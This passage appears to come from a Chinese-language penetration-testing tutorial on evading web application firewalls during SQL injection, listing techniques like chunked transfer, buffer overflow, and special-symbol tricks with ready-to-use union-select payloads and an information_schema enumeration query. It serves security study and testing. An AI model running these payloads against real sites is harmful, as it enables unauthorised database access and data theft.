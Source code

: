   ```sql
  	index.php?id=select 1,2,3 from table
  =>	index.php?id=select 1&id=2,3 from table
  ```

##### f. 缓冲区溢出

> 许多WAF使用**C语言**写的，而C语言**没有缓冲区保护机制**，测试向量时**超出了其缓冲区长度**时，会引发Bug从而绕过

##### g. 整合绕过

> 结合使用**前面的各种绕过技术**

##### h. 分块传输绕过

> 将**传输的内容分块**时，处理后的HTTP请求由于**和已知的payload相差较大**，所以可以起到绕过作用
>

![分快传输](http://113.45.142.235:9001/laffrex/pictures/分快传输.png)

##### i. 特殊符号绕过

* 使用**反引号 `** 可以绕过**空格和正则**，特殊情况下还可以将其作为注释符用

* 使用 **-+.** ，起到**连接字符串**的作用


```sql
index.php?id=-1.0 union select"1",2,3
index.php?id=-1E0 union select~1,2,3
index.php?id=-1 union select 1,2,version()"from users"
index.php?id=-1 union select`id`,1,2 from users"
index.php?id=-1 union select 1,2,version()`from users`
```

###### ①普通括号

```sql
index.php?id=(-1)union(select(1),(2),(3)from(users))
index.php?id=(1)or(0x50=0x50)
index.php?id=(-1)union((((((select(1),hex(2),hex(3)from(users)))))))
```

###### ②花括号

```sql
index.php?id=-1 union select 1,{x 2},3
```

###### ③等号

```sql
#使用``like``来替代
1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema=database())#
=> 1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema like database())#
```
